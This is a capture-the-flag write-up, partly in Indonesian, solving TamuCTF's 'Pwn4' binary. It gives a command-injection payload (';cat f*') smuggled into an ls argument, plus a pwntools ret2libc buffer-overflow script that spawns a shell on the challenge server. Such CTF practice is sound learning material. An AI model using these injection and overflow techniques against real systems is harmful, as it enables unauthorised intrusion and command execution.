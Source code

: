 # __TamuCTF__
## _Pwn4_

## Information
**Category:** | **Points**
pwn | 100

**Description**

> nc pwn.tamuctf.com 4324
> Difficulty: easy
> [pwn4](./pwn4)

### Pwn4
#### File
```
pwn4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=db1ceeb24f1c95e886c69fb0682714057ca13013, not stripped
```

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

#### Run
```
[l0l@l0l Pwn4]$ nc pwn.tamuctf.com 4324
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
.
Result of ls .:
flag.txt
pwn4
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
```

#### Solve
Sepertinya program mengeksekusi `system('ls $input')` tanpa difilter.

#### Payload
`;cat f*`

#### Result
```
[l0l@l0l Pwn4]$ nc pwn.tamuctf.com 4324
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
;cat f*
Result of ls ;cat f*:
flag.txt
pwn4
gigem{5y573m_0v3rfl0w}
```

#### Flag
gigem{5y573m_0v3rfl0w}


#### Note
Ternyata solusi yang diinginkan sebenarnya adalah melakukan buffer overflow (input kita lagi-lagi diambil dengan gets) untuk return ke fungsi `system` dengan argumen '/bin/sh' (ret2libc).
Maka susunan payload : |buffer|ebp|return|argument| -> |padding|ebp|address_system|address_binsh|

```
from pwn import *

system = 0x080485AD
binsh = 0x804a034

p = remote('pwn.tamuctf.com', 4324)
p.recvuntil('ls:')

payload = "A"*37
payload += p32(system)
payload += p32(binsh)
p.sendline(payload)
p.interactive()
```
